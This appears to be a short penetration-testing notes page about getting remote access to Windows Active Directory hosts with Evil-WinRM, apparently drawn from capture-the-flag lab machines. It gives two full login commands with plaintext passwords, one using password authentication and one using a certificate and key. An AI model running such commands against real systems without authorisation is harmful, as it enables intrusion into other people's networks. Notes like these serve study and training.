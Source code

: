 ```yaml
---
description: >-
  DCSync Attack
title: DCSync Attack              # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement]             # Change Templates to Writeup
tags: [active directory, lateral movement, evilwinrm]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Basic Access
Evil-WinRM to access via port tcp-5985 into a system:
```powershell
evil-winrm -i 10.10.11.158 -u 'nikk37' -p 'get_dem_girls2@yahoo.com'
```
Examples:
[[Forest#^b22389]]

### Active Directory Certificate Services
#Note We can extract the .cer and the .key from a .pfx as per the [[Legacy PFX certificate]] guide.
If we get a .cer certificate from the /certsrv endpoint on the DC website we can access to it as follows, for more info go to [[WinRM Certificate (password-less) based authentication]]:
```bash
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:evil-winrm)
